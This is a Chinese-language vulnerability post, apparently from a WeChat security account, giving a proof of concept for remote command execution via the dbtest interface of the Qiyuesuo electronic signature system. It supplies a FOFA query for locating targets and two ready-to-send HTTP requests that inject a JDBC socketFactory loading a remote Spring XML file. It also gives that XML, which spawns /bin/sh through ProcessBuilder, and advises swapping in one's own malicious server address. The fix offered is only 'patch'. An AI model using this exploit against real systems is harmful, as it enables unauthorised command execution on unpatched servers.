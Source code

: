 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247488643&idx=1&sn=b27e3aba1632dd12bad93e6c83fe107a

#  契约锁电子签章系统dbtest接口存在远程命令执行漏洞 附POC  
2025-6-18更新  南风漏洞复现文库   2025-06-18 15:44  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 契约锁电子签章系统简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
契约锁电子签章系统  
## 2.漏洞描述  
  
契约锁电子签章系统dbtest接口存在远程命令执行漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
契约锁电子签章系统  
  
![契约锁电子签章系统dbtest接口存在远程命令执行漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2opZQwHXCaibzIReQH3FUqrejPibPPKbt0PrNmXt237elY1QlzYwBKtEEicw/640?wx_fmt=png&from=appmsg "null")  
  
契约锁电子签章系统dbtest接口存在远程命令执行漏洞  
## 4.fofa查询语句  
  
app="契约锁-电子签署平台"  
## 5.漏洞复现  
  
漏洞数据包如下两个：  

```
GET /api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fdxugqgrfejgjdekb.2bi2sq.dnslog.cn%2F1%2Exml HTTP/1.1Host: xx.xx.xx.xxxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```


```
GET /setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fdxugqgrfejgjdekb.2bi2sq.dnslog.cn%2F1%2Exml HTTP/1.1Host: xx.xx.xx.xxxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```

  
存在漏洞会成功出发dnslog平台记录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2op6jZx447PHTeDfx0dMmpfWoLTFSv345QibMYHvh6ic8AugWmicGzwFOdMA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
可以在把dnslog替换成自己的恶意代码地址，在自己的网站上搭建如下文件，用接口访问该文件即可：  

```
<beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;       xmlns:p=&#34;http://www.springframework.org/schema/p&#34;       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans        http://www.springframework.org/schema/beans/spring-beans.xsd&#34;>   <bean id=&#34;exec&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;>        <constructor-arg>          <list>            <value>/bin/sh</value>            <value>-c</value>            <value>touch /tmp/test</value>          </list>        </constructor-arg>    </bean></beans>
```

## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2op1FIgBibg2cEp3BA7WYp7PrQReYtaPf0Px5dUoNmBicC1TXe75zIxGp6Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2op3yzibXsDBgKhVcHOxzDycCW8rK6dbCOg1MCWaHAsT5gV5R7E5GHiabtg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2opYnEnqJOKu7WcPj6UutydpNESnTDkDrphK4zqOia5CWPkecjjLzWEY0w/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2opRtmSqDoX2hOXOrafqLtd0Vk2QggJCPqvvp4MGAlGADUhYvIthibGpPQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Yq1Uqh5QWY0KktonmgF2opRELQ1qSmBicibvf15gUARDTaSoKdia8nKiaZJWJ63tuoibbzNiaA5z6YuWuA/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
  
   
  
  
  
